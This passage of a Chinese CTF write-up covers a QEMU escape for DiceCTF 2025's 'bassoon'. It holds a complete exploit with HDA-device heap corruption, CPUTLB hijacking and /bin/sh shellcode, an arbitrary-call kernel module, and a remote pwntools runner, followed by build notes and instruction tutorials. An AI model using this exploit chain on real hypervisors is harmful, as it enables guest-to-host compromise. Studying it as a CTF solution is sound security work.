    uint8_t *sc = "\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90j;X\x99H\xbb//bin/shH\xc1\xeb\x08SH\x89\xe7RWH\x89\xe6\xb0;\x0f\x05";
    for (size_t i = 0; i < 0x100/8; i++) {
        set64(7, 8*i, ((uint64_t *)sc)[i]);
    }
    parse_bdlp(7, 0x1a-2);
```

shellcode：

```python
>>> from pwn import *
>>> context.os = "linux"
>>> context.arch = "amd64"
>>> print(disasm(b"\x6a\x3b\x58\x99\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x48\xc1\xeb\x08\x53\x48\x89\xe7\x52\x57\x48\x89\xe6\xb0\x3b\x0f\x05"))
   0:   6a 3b                   push   0x3b
   2:   58                      pop    rax
   3:   99                      cdq
   4:   48 bb 2f 2f 62 69 6e 2f 73 68   movabs rbx, 0x68732f6e69622f2f
   e:   48 c1 eb 08             shr    rbx, 0x8
  12:   53                      push   rbx
  13:   48 89 e7                mov    rdi, rsp
  16:   52                      push   rdx
  17:   57                      push   rdi
  18:   48 89 e6                mov    rsi, rsp
  1b:   b0 3b                   mov    al, 0x3b
  1d:   0f 05                   syscall
>>> print(b"\x6a\x3b\x58\x99\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x48\xc1\xeb\x08\x53\x48\x89\xe7\x52\x57\x48\x89\xe6\xb0\x3b\x0f\x05".rjust(0x100, b"\x90"))
b'\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90j;X\x99H\xbb//bin/shH\xc1\xeb\x08SH\x89\xe7RWH\x89\xe6\xb0;\x0f\x05'
```

> [!tips]
>
> 保险起见，shellcode前加了一些滑板指令，实际用没用到不清楚hhh

# Exp

## bassoon_qemu.exp.c

```c
#include <stdio.h>
#include <unistd.h>
#include <stdlib.h>
#include <stdint.h>
#include <string.h>
#include <errno.h>
#include <signal.h>
#include <fcntl.h>
#include <ctype.h>
#include <termios.h>
#include <assert.h>

#include <sys/types.h>
#include <sys/mman.h>
#include <sys/io.h>
#include <sys/ioctl.h>

#define PAGE_SHIFT      12
#define PAGE_SIZE       (1 << PAGE_SHIFT)
#define PFN_PRESENT     (1ull << 63)
#define PFN_PFN         ((1ull << 55) - 1)
#define PAGE_OFF(addr)  (addr & ((1 << PAGE_SHIFT) - 1))

uint64_t gva_to_gfn(void *addr) {
    int fd = open("/proc/self/pagemap", O_RDONLY);
    if (fd < 0) {
        perror("open");
        exit(1);
    }
    uint64_t pme, gfn;
    size_t offset;
    offset = ((uintptr_t)addr >> 9) & ~7;
    lseek(fd, offset, SEEK_SET);
    read(fd, &pme, 8);
    if (!(pme & PFN_PRESENT))
        return -1;
    gfn = pme & PFN_PFN;
    close(fd);
    return gfn;
}

uint64_t gva_to_gpa(void *addr) {
    uint64_t gfn = gva_to_gfn(addr);
    assert(gfn != -1);
    return (gfn << PAGE_SHIFT) | PAGE_OFF((uint64_t)addr);
}

void *mmio_init(void *fixed_va, off_t mmio_base, size_t mmio_size) {
    void *res = NULL;

    int mem_fd = open("/dev/mem", O_RDWR | O_SYNC);
    if (mem_fd == -1) {
        perror("[-] failed to open mmio.");
        exit(EXIT_FAILURE);
    }

    res = mmap(fixed_va, mmio_size, PROT_READ | PROT_WRITE, MAP_SHARED, mem_fd, mmio_base);
    if (res == MAP_FAILED) {
        perror("[-] failed to mmap mmio.");
        exit(EXIT_FAILURE);
    }
    if (mlock(res, mmio_size) == -1) {
        perror("[-] failed to mlock mmio_mem.");
        exit(EXIT_FAILURE);
    }
    printf("[*] mmio_mem: %p\n", res);

    close(mem_fd);
    return res;
}

#define mmio_write64(mem, offset, value) { \
    (*(volatile uint64_t *)(mem + offset) = value); \
    __sync_synchronize(); \
}

#define HUGEPAGE_SZ (2*1024*1024)
#define HDA_VA      0xcafe000
#define DATA_VA     0xbabe00000
#define HUGE_VA     0xc0de00000
volatile void *hda_mmio_mem = NULL;
volatile void *data = NULL;
volatile void *huge = NULL;

// addr
#define ST_REG(_n, _o) (0x80 + (_n) * 0x20 + (_o)) // _n = 0~3 IN; = 4~7 OUT
/* stream register offsets from stream base */
#define ICH6_REG_SD_CTL			0x00
#define ICH6_REG_SD_LVI			0x0c
#define ICH6_REG_SD_BDLPL		0x18
#define ICH6_REG_SD_BDLPU		0x1c

/* SD_CTL bits */
#define SD_CTL_STREAM_RESET	0x01	/* stream reset bit */
#define SD_CTL_DMA_START	0x02	/* stream DMA start bit */
#define SD_CTL_STREAM_TAG_SHIFT	20

#define set64(idx, off, val) (*(volatile uint64_t*)(data+((idx)*0x2000)+(off)) = (val))

void parse_bdlp(uint8_t st, uint64_t lvi) {
    mmio_write64(hda_mmio_mem, ST_REG(st, ICH6_REG_SD_LVI), lvi);
    mmio_write64(hda_mmio_mem, ST_REG(st, ICH6_REG_SD_CTL), SD_CTL_DMA_START);
    mmio_write64(hda_mmio_mem, ST_REG(st, ICH6_REG_SD_CTL), SD_CTL_STREAM_RESET);
}

#define invlpg() { \
    __asm__ volatile ( \
        "invlpg (%%rax)" \
        : \
        : "a" (HUGE_VA) \
        : "memory" \
    ); \
}
#define CPU_FREQ_MHZ 3000ULL
#define spin() { \
    cycles = CPU_FREQ_MHZ * 100000ULL; \
    __asm__ ( \
        "rdtsc\n\t" \
        "shl $32, %%rdx\n\t" \
        "or %%rdx, %%rax\n\t" \
        "add %0, %%rax\n\t" \
        "mov %%rax, %%rbx\n\t" \
    "1:\n\t" \
        "pause\n\t" \
        "rdtsc\n\t" \
        "shl $32, %%rdx\n\t" \
        "or %%rdx, %%rax\n\t" \
        "cmp %%rbx, %%rax\n\t" \
        "jb 1b" \
        : \
        : "r" (cycles) \
        : "rax", "rbx", "rdx" \
    ); \
}
void resize_CPUTLB() {
    uint64_t cycles = 0;
    invlpg();
    spin();
}

void hijack_CPUTLB() {
    mmio_write64(HDA_VA, ST_REG(2, ICH6_REG_SD_CTL), SD_CTL_DMA_START);
    invlpg();
}

int kfunc_fd = 0;
#define kfunc(addr) ioctl(kfunc_fd, 0x1337, addr)

int main() {
    system("sysctl -w vm.nr_hugepages=102400");
    system("sysctl -w vm.mmap_min_addr=0");
    system("insmod kfunc.ko");
    kfunc_fd = open("/dev/kfunc", O_RDWR);
    if (kfunc_fd < 0) {
        perror("open");
        exit(1);
    }

    hda_mmio_mem = mmio_init((void *)HDA_VA, 0xfebf0000, 0x2000);

    uint64_t data_pa = 0;
    data = mmap((void *)DATA_VA, HUGEPAGE_SZ, PROT_READ|PROT_WRITE,
            MAP_FIXED|MAP_PRIVATE|MAP_ANON|MAP_HUGETLB|MAP_POPULATE, -1, 0);
    data_pa = gva_to_gpa((void *)data);
    printf("[*] data: %p\n", (void *)data);
    printf("[*] data_pa: %p\n", (void *)data_pa);

    for (size_t st = 0; st < 8; st++) {
        uint64_t addr = data_pa+0x2000*st;
        mmio_write64(hda_mmio_mem, ST_REG(st, ICH6_REG_SD_BDLPL), addr&0xffffffff);
    }

    /* Step1: overlap */
    set64(1, 0xf8, 0x815);          // fake chunk2.size
    set64(5, 0xf8, 0x415);          // fake chunk6.size
    for (int st = 6; st >= 0; st--)
        parse_bdlp(st, 0x10-2);     // chunk size = 0x100
    set64(6, 0x400, 0x810);         // fake prev_size for chunk2
    set64(6, 0x408, 0xf5);          // fake next chunk size
    parse_bdlp(6, 0x41-2);          // free chunk6; alloc 0x410 chunk

    /* Step2: Overwrite CPUTLBEntry */
    // 2.1 create overlapped chunk for CPUTLB
    huge = mmap((void *)HUGE_VA, HUGEPAGE_SZ, PROT_READ|PROT_WRITE,
            MAP_FIXED|MAP_PRIVATE|MAP_ANON|MAP_HUGETLB, -1, 0);
    printf("[*] huge: %p\n", huge);

    // invlpg and loop to resize CPUTLB to 0x810 chunk
    *(uint8_t *)huge = 0;
    kfunc(resize_CPUTLB);

    // 2.2 hijack CPUTLB
    *(uint8_t *)huge = 0;
    mmio_write64(hda_mmio_mem, ST_REG(2, ICH6_REG_SD_LVI), 0x9-2);
    kfunc(hijack_CPUTLB); // individual BB
    mmio_write64(hda_mmio_mem, ST_REG(2, ICH6_REG_SD_CTL), SD_CTL_STREAM_RESET);

    // 2.3 overwrite CPUTLBEntry
    set64(7, 0x108, 0x35);
    parse_bdlp(7, 0x11-2); // make only 6 chunks in 0x110 tcache bins
    set64(0, 0xf8, 0x115);
    parse_bdlp(0, 0x10-2);

    volatile void *hit = mmio_init((void *)0x7e00000, 0, 0x1000);
    *(uint8_t *)hit = 0;
    parse_bdlp(1, 0x11-2);

    /* Step3: Leak and execute shellcode in JIT page */
    volatile uint64_t *target = 0;
    //for (size_t i = 0; i < 0x10; i++)
    //    printf("[0x%lx] %p\n", i, (void *)target[i]);

    uint64_t theap = target[0] - 0x30;
    uint64_t jit = target[0x17f] - 0x2d;
    printf("[*] theap: %p\n", (void *)theap);
    printf("[*] jit: %p\n", (void *)jit);

    // 0x1a0 tcache entry
    target[0xa20/8] = jit;
    uint8_t *sc = "\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90j;X\x99H\xbb//bin/shH\xc1\xeb\x08SH\x89\xe7RWH\x89\xe6\xb0;\x0f\x05";
    for (size_t i = 0; i < 0x100/8; i++) {
        set64(7, 8*i, ((uint64_t *)sc)[i]);
    }
    parse_bdlp(7, 0x1a-2);

    return 0;
}
```

编译命令：

```bash
gcc -g --debug -static -o ./rootfs/exp ./bassoon_qemu.exp.c
```


## kfunc.c

```c
#include <linux/kernel.h>
#include <linux/module.h>
#include <linux/miscdevice.h>
#include <linux/printk.h>
#include <linux/fs.h>

MODULE_LICENSE("GPL");

static long my_ioctl(struct file *filp, unsigned int cmd, unsigned long arg);
static struct miscdevice my_dev;
static struct file_operations my_fops = {
	.unlocked_ioctl = my_ioctl,
};

struct task_struct *reaper;

static long my_ioctl(struct file *filp, unsigned int cmd, unsigned long arg)
{
	if (cmd == 0x1337) {
		((void (*)(void))arg)();
		return 0;
	}
	return -EINVAL;
}

static int __init my_init(void)
{
	my_dev.minor = MISC_DYNAMIC_MINOR;
	my_dev.name = "kfunc";
	my_dev.fops = &my_fops;
	return misc_register(&my_dev);
}
module_init(my_init);

static void __exit my_exit(void)
{
	misc_deregister(&my_dev);
}
module_exit(my_exit);
```

内核：[linux-6.13.8.tar.gz](https://www.kernel.org/pub/linux/kernel/v6.x/linux-6.13.8.tar.xz)

```bash
# uname -r
6.13.8
```

Makefile：

```makefile
obj-m := kfunc.o
KVERSION = 6.13.8

PWD := $(shell pwd)
KERNELDR := $(PWD)/linux-6.13.8

modules:
	$(MAKE) -C $(KERNELDR) M=$(PWD) modules
clean:
	rm -rf *.o *.mod *.mod.c *.order *.symvers
```

编译命令：

```bash
# 预编译内核，构建编译模块的所需文件
wget https://www.kernel.org/pub/linux/kernel/v6.x/linux-6.13.8.tar.xz
tar -xvf ./linux-6.13.8.tar.xz && cd linux-6.13.8
make menuconfig
make -j4
```

#### 编译驱动时遇到的问题（仍未解决，暂时搁置）

##### ~~asm/rwonce.h缺失~~ （根本问题同下）

```bash
linux-6.13.8/include/linux/compiler.h:316:10: fatal error: asm/rwonce.h: No such file or directory
  316 | #include <asm/rwonce.h>
      |          ^~~~~~~~~~~~~~
compilation terminated.
```

解决方法：

```bash
cd linux-6.13.8
make prepare
```

##### 不编译完整内核

```bash
make -C /home/hotaru/Desktop/CTF/challenge/dicectf2025/bassoon/kfunc/linux-6.13.8 M=/home/hotaru/Desktop/CTF/challenge/dicectf2025/bassoon/kfunc modules
make[1]: Entering directory '/home/hotaru/Desktop/CTF/challenge/dicectf2025/bassoon/kfunc/linux-6.13.8'
make[2]: Entering directory '/home/hotaru/Desktop/CTF/challenge/dicectf2025/bassoon/kfunc'
  CC [M]  kfunc.o
  MODPOST Module.symvers
WARNING: /home/hotaru/Desktop/CTF/challenge/dicectf2025/bassoon/kfunc/linux-6.13.8/Module.symvers is missing.
         Modules may not have dependencies or modversions.
         You may get many unresolved symbol errors.
         You can set KBUILD_MODPOST_WARN=1 to turn errors into warning
         if you want to proceed at your own risk.
WARNING: modpost: "misc_register" [kfunc.ko] undefined!
WARNING: modpost: "misc_deregister" [kfunc.ko] undefined!
WARNING: modpost: "__fentry__" [kfunc.ko] undefined!
WARNING: modpost: "__x86_indirect_thunk_rdx" [kfunc.ko] undefined!
WARNING: modpost: "__x86_return_thunk" [kfunc.ko] undefined!
WARNING: modpost: "module_layout" [kfunc.ko] undefined!
make[4]: *** No rule to make target 'kfunc.ko', needed by '__modfinal'.  Stop.
make[3]: *** [/home/hotaru/Desktop/CTF/challenge/dicectf2025/bassoon/kfunc/linux-6.13.8/Makefile:1920: modules] Error 2
make[2]: *** [/home/hotaru/Desktop/CTF/challenge/dicectf2025/bassoon/kfunc/linux-6.13.8/Makefile:251: __sub-make] Error 2
make[2]: Leaving directory '/home/hotaru/Desktop/CTF/challenge/dicectf2025/bassoon/kfunc'
make[1]: *** [Makefile:251: __sub-make] Error 2
make[1]: Leaving directory '/home/hotaru/Desktop/CTF/challenge/dicectf2025/bassoon/kfunc/linux-6.13.8'
make: *** [Makefile:8: modules] Error 2
```

参考：

* [how-to-build-external-modules](https://docs.kernel.org/kbuild/modules.html#how-to-build-external-modules)
* [Trouble building KVM from source for Ubuntu 22.04. section size must match the kernel's](https://unix.stackexchange.com/questions/776241/trouble-building-kvm-from-source-for-ubuntu-22-04-section-size-must-match-the-k)
* [Build a Single in Tree Linux Kernel Module (Debian & Clones)](https://imil.net/blog/posts/2022/build-a-single-in-tree-linux-kernel-module-debian--clones/)

> To build external modules, you must have a prebuilt kernel available that contains the configuration and header files used in the build. Also, the kernel must have been built with modules enabled. If you are using a distribution kernel, there will be a package for the kernel you are running provided by your distribution.
>
> An alternative is to use the “make” target “modules_prepare.” This will make sure the kernel contains the information required. The target exists solely as a simple way to prepare a kernel source tree for building external modules.
>
> NOTE: “modules_prepare” will not build Module.symvers even if CONFIG_MODVERSIONS is set; therefore, a full kernel build needs to be executed to make module versioning work.

如果只想构建外部模块而不需要构建完整的内核时，需要先在内核源码根目录下运行`make modules_prepare`进行预编译，构建编译模块时的所需文件。

```bash
cd linux-6.13.8
make modules_prepare

cd ..
make && make clean
```

但是实际操作下来发现，就算编译成功，添加驱动时也会失败报错：

```bash
module kfunc: .gnu.linkonce.this_module section size must match the kernel's built struct modulee
insmod: can't insert 'kfunc.ko': invalid module format
```

**所以要使模块版本生效，还是要完整编译内核得到Module.symvers之后，再编译外部模块。**

```bash
cd linux-6.13.8
make menuconfig
make -j4
cp Module.symvers ..

cd ..
make && make clean
```


## bassoon.qmeu.py

```python
from pwn import *
import os
import base64

aslr = True
context.log_level = "debug"
context.terminal = ['tmux','splitw','-h']
context.arch = "amd64"
context.os = "linux"

libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')

p = None
ru = lambda x : p.recvuntil(x, timeout=10)
sn = lambda x : p.send(x)
rl = lambda   : p.recvline()
sl = lambda x : p.sendline(x)
rv = lambda x : p.recv(x)
sa = lambda a,b : p.sendafter(a,b)
sla = lambda a,b : p.sendlineafter(a,b)

def send_file(src, dst):
    pl = base64.b64encode(open(src, "rb").read())
    sla(b"#", b"cat<<EOF|base64 -d>"+dst)
    for i in range(0, len(pl), 0x100):
        sla(b">", pl[i:i+0x100])
    sla(b">", b"EOF")

def conn(local=1):
    global p
    if local:
        os.system("cd rootfs && find . | cpio -o --format=newc > ../initramfs.cpio.gz && cd --")
        p = process('./run',aslr=aslr)
        sla(b"~ #", b"chmod +x /exp; /exp")

    else:
        #remote_addr = ['127.0.0.1', 5000]
        remote_addr = ['dicec.tf', 32079]
        p = remote(remote_addr[0], remote_addr[1])

        send_file("kfunc/kfunc.ko", b"/kfunc.ko")
        send_file("rootfs/exp", b"/exp")
        sla(b"~ #", b"chmod +x /exp; /exp")


if __name__ == "__main__":
    #os.system("gcc -g --debug -static -o ./rootfs/exp ./bassoon_qemu.exp.c")
    os.system("gcc -O3 -static -o ./rootfs/exp ./bassoon_qemu.exp.c")

    while True:
        try:
            conn(0)
            t = ru("~ #")
            if b"Segmentation fault" in t:
                raise EOFError
            break
        except EOFError:
            p.close()
            continue

    p.interactive()
```


# nsjail docker构建测试环境

本题给的dockerfile基于[pwn.red/jail](https://github.com/redpwn/jail)，构建方法：

```bash
docker run -p 5000:5000 --privileged $(docker build -q .)
# or
docker build -t "dicectf2025:bassoon" .
docker run -idt --name "bassoon" -p 5000:5000 --privileged "dicectf2025:bassoon"
```

之后直接`nc localhost 5000`即可连接题目。

构建过程没有问题，但nc上去之后题目环境起不起来，看log发现是将`/`挂载到`/`时出现了权限错误：

```bash
$ docker run -p 5000:5000 --privileged dicectf2025:bassoon
...
[E][2025-05-07T02:32:01+0000][1] initCloneNs():382 mount('/', '/', NULL, MS_REC|MS_PRIVATE, NULL): Permission denied
[F][2025-05-07T02:32:01+0000][1] runChild():483 Launching child process failed
[W][2025-05-07T02:32:01+0000][1] runChild():503 Received error message from the child process before it has been executed
[I][2025-05-07T02:32:01+0000] pid=11 ([::ffff:172.17.0.1]:43666) exited with status: 255, (PIDs left: 0)
```

dmesg：

```bash
[940133.830148] audit: type=1400 audit(1746585121.321:366): apparmor="AUDIT" operation="userns_create" class="namespace" info="Userns create - transitioning profile" profile="unconfined" pid=955294 comm="nsjail" requested="userns_create" target="unprivileged_userns"
[940133.841966] audit: type=1400 audit(1746585121.333:367): apparmor="DENIED" operation="mount" class="mount" info="failed mntpnt match" error=-13 profile="unprivileged_userns" name="/" pid=955363 comm="nsjail" flags="rw, rprivate"
```

解决方法参考：

* [Nsjail doesn't work for new Ubuntu24/Docker27 versions](https://github.com/google/nsjail/issues/238)
* [Ubuntu 24.x "permission denied" in `mount(/, /)`](https://github.com/google/nsjail/issues/236)
* [Restricted unprivileged user namespaces are coming to Ubuntu 23.10](https://ubuntu.com/blog/ubuntu-23-10-restricted-unprivileged-user-namespaces)

> **Ubuntu’s approach**
>
> Therefore, for Ubuntu, we are introducing [restricted unprivileged user namespaces](https://discourse.ubuntu.com/t/spec-unprivileged-user-namespace-restrictions-via-apparmor-in-ubuntu-23-10/37626), where AppArmor can be used to selectively allow and disallow unprivileged user namespaces. An AppArmor policy is used to selectively control access to unprivileged user namespaces on a per applications basis.
>
> As such, unprivileged processes will only be able to create user namespaces if they are confined and have the “userns,” rule in their AppArmor profile (or if they have CAP_SYS_ADMIN). Since it is not feasible to create a complete AppArmor profile for most affected applications, we introduced a new *default_allow* profile mode. While this effectively allows the application to remain unconfined, it also *adds a new “userns,” rule* to allow it to use unprivileged user namespaces.
>
> 
>
> **What is missing and where can you help?**
>
> The mitigation above described (supplying profiles in the AppArmor package) is not (and may never be) complete, and applications that use unprivileged user namespaces may be denied from using them if:
>
> 1. No AppArmor profile exists for them (ie: packages not in the Ubuntu archives or for which a profile has not been provided); and/or
> 2. They get installed at a different path
>
> In order to turn this feature on, use the following command:
>
> ```bash
> sudo sysctl -w kernel.apparmor_restrict_unprivileged_unconfined=1
> sudo sysctl -w kernel.apparmor_restrict_unprivileged_userns=1
> ```
>
> And if you want to disable it, run the following two commands:
>
> ```bash
> sudo sysctl -w kernel.apparmor_restrict_unprivileged_unconfined=0
> sudo sysctl -w kernel.apparmor_restrict_unprivileged_userns=0
> ```
>
> We also note that no prior Ubuntu release will be impacted by this change, even when using the 6.5 kernel as a Hardware Enablement Kernel with older LTS releases, since the feature is not enabled in the kernel directly but within the apparmor package specific to the Ubuntu 23.10 release.

运行下面两行禁用apparmor规则即可（之后可以再打开）：

```bash
sudo sysctl -w kernel.apparmor_restrict_unprivileged_unconfined=0
sudo sysctl -w kernel.apparmor_restrict_unprivileged_userns=0
```


# 补充知识

## invlpg指令

`INVLPG`（Invalidate Page）指令是x86架构下的一条指令，它能够使得指定虚拟地址的页表条目失效，从而使得与该虚拟地址相关的缓存（例如，TLB，Translation Lookaside Buffer）中的信息无效。这意味着下一次访问该虚拟地址时，CPU 会重新查询页表来获取新的映射，而不是继续使用缓存中的过时信息。

### 指令格式

```asm
INVLPG mem
```

* `mem`：内存操作数，表示需要使无效的虚拟地址。

> [!note]
>
> `INVLPG` 指令本身没有硬性要求只能在内核态下执行，但由于其涉及对内存管理和缓存的直接操作，通常只有内核态程序才会使用该指令。用户态程序则无法直接使用该指令，而是通过内核提供的系统调用接口来间接触发。

### 关键点

1. **失效的页面**：在处理分页机制的计算机系统中，每个虚拟地址都有一个对应的物理地址。为了加速地址转换，CPU 会使用TLB缓存来存储这些转换关系。当系统修改页表时，TLB 中的旧条目可能会不再有效，因此需要使用 `INVLPG` 来使它们无效。
2. **应用场景**：
   * 当操作系统或虚拟化软件修改了一个虚拟页面的映射（例如，某个内存页被移到另一块物理内存区域），可以使用 `INVLPG` 来确保该虚拟地址的 TLB 条目被更新。
   * 在多核处理器中，如果一个核心修改了某个虚拟页的映射，`INVLPG` 可用于通知其他核心更新它们的缓存。
3. **注意**：`INVLPG` 只是清除 TLB 中对应页面的条目，不会影响主存中的页表或缓存。这意味着它不会直接修改硬盘上的页表，只是更新 CPU 内部的缓存。操作系统在内存管理中常常使用 `INVLPG` 来维护页面映射的正确性，特别是在进行进程切换、内存映射更新等操作时。

## sdtsc指令

`RDTSC`(Read Time-Stamp Counter)是x86架构下的一条指令，它能够读取时间戳计数器，返回自系统启动以来的时钟周期数。这一指令常用于性能计数和测量时间间隔。

格式：

```asm
RDTSC      ; EAX:EDX 存储计数器的低32位和高32位
```

功能：

* `RDTSC` 会将时间戳计数器的值加载到 `EDX:EAX` 寄存器对中，`EAX` 存储低32位，`EDX` 存储高32位。这个计数器随着 CPU 时钟周期的推移而递增。

用途：

* **性能分析**：`RDTSC` 经常用于测量代码段或算法执行所需的 CPU 时钟周期数。这对于性能调优和分析非常有用。
* **精确计时**：如果需要精确到 CPU 时钟的计时，可以使用 `RDTSC` 来进行时间测量。由于它返回的是时钟周期数，可以通过它来计算经过的时间，前提是知道 CPU 的时钟频率。

注意事项：

* `RDTSC` 计数器的值会随 CPU 的频率变化而变化（例如 CPU 调整频率时），因此其精确性可能会受到影响。
* 在某些多核系统上，`RDTSC` 的同步可能不同步，可能需要考虑跨核心时间戳的一致性问题。

## pause指令

`PAUSE` 是x86架构下的一条指令，用于优化多线程程序的性能，特别是在忙等待（busy-waiting）时。它的作用是暂停当前线程的执行一小段时间，以减少 CPU 资源的浪费。它常用于循环中，当一个线程等待某个条件或资源时。

格式：

```
PAUSE
```

功能：

* `PAUSE` 不会执行任何实际的计算操作，而是向 CPU 发出提示，表明当前线程正在忙等待。具体来说，它会导致 CPU 放缓其执行速度，减少无谓的计算资源消耗，并允许其他线程或进程获得 CPU 时间片，从而提高整体系统的效率。
* 在多核处理器系统中，`PAUSE` 还可能对缓存一致性和 CPU 的调度优化有一定的影响，尤其是在并行计算时。

用途：

* **忙等待优化**：当程序处于忙等待状态（例如等待某个标志位或资源）时，`PAUSE` 可以减轻 CPU 的负担，减少不必要的功耗和热量产生。
* **多线程同步**：在多线程程序中，使用 `PAUSE` 可以让 CPU 更高效地处理任务，尤其是在等待共享资源或同步信号时。

示例：

```
LOOP:
    ; 等待某个条件满足
    PAUSE        ; 暂停一小段时间以减少 CPU 资源浪费
    ; 循环继续
```

注意事项：

* `PAUSE` 的作用通常是无害的，不会影响程序的逻辑执行，但会帮助 CPU 在忙等待时做一些调度优化。
* 在一些处理器架构中，`PAUSE` 可能会增加缓存的刷新或其他内部操作的频率，进一步优化多线程的性能。


## __sync_synchronize函数

`__sync_synchronize`是GCC提供的一个内建函数，用于在多线程编程中确保内存操作的顺序性，通常用于实现内存屏障（Memory Barrier）或栅栏（Fence）的功能。

### 主要作用

`__sync_synchronize`的作用是强制对程序中的内存操作进行同步，`__sync_synchronize` 插入的是一个**全屏障（Full Barrier）**，即它会同时禁止所有类型的重排序：既包括写操作和读操作之间的重排序，也包括写操作和写操作之间的重排序，确保屏障前后的操作完全按顺序执行。不会改变内存操作的具体内容。

* **防止重排序**：它可以防止在多线程环境中，编译器或硬件优化导致的指令重排序，从而确保程序按照预期的顺序执行。
* **内存屏障（Memory Barrier）**：通过插入内存屏障，强制保证某些内存操作（如写操作）在屏障前完成，而其他内存操作（如读操作）必须等到屏障之后才能执行。它使得在多处理器环境中，内存操作的顺序对各个处理器是可见的。

### 调用举例

`__sync_synchronize` 是一个无参数、无返回值的函数。调用它通常放在需要保证顺序的代码块中，确保在它之前的内存操作完成后，才能继续执行后面的操作。

```c
// 在此之前的内存操作（例如，写操作）会在同步之前完成
__sync_synchronize();  // 插入一个内存屏障
// 这里是保证同步后，进行的操作
```

假设我们在一个多线程程序中，线程 A 写入数据并通知线程 B，线程 B 需要等线程 A 写入的数据完成后再进行读取。如果没有同步，线程 B 可能会先读取到不完全的或不一致的数据。我们可以使用 `__sync_synchronize()` 来确保数据的顺序性：

```c
// 线程 A
int data = 42;
__sync_synchronize();  // 确保 data 写入完成
notify_thread_b();  // 通知线程 B 可以继续处理

// 线程 B
wait_for_notification();
__sync_synchronize();  // 确保在读取 data 之前，A 的数据已经完成写入
int value = data;  // 读取数据
```


## volatile修饰符

`volatile`是C/C++中的一个类型修饰符，用来修饰变量，告知编译器该变量的值可能会在程序中以不可预知的方式发生变化。因此，编译器不会对该变量进行优化，**确保每次访问该变量时都从内存中读取最新的值**，而不是从寄存器或缓存中读取。

### 主要作用

1. **防止编译器优化**：编译器可能会对程序中的代码进行优化，比如将变量的值缓存到寄存器中，避免频繁的内存访问。然而，`volatile` 修饰的变量会强制编译器每次都从内存中读取该变量的最新值，而不是使用缓存的值。这对于硬件寄存器、外部设备状态或多线程程序中特定变量的值非常重要。
2. **用于硬件寄存器**：在嵌入式系统编程中，通常会有一些特殊的硬件寄存器或外设的状态，这些状态可能会在任何时刻由硬件或外部事件修改，而编译器通常不会知道这些变化。使用 `volatile` 可以确保每次访问这些硬件寄存器时都能够从内存中获取最新的值。
